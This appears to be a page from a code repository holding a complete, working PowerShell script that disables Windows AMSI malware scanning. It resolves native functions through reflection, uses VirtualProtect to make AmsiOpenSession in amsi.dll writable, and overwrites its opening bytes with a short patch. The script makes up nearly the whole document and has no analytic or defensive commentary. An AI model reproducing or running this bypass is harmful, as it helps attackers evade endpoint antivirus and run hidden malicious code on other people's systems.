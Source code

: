 ```powershell
function LookupFunc {
	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] ([Convert]::FromBase64String("SDHAAw==")) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
```

---
## References

